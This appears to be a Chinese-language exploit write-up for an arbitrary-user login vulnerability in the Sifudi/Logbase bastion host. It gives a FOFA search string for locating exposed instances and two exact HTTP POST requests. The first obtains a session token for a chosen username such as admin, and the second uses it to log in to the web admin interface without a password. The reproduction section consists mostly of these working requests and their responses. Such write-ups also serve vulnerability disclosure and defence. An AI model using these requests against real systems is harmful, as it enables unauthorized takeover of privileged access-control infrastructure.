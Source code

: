 # 思福迪堡垒机 任意⽤户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

> [!NOTE]
>
> 思福迪堡垒机

## FOFA

> [!NOTE]
>
> "Logbase运维安全管理系统"

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```

获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**

带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```

利用后即可登录后台

![](image/sf-1.png)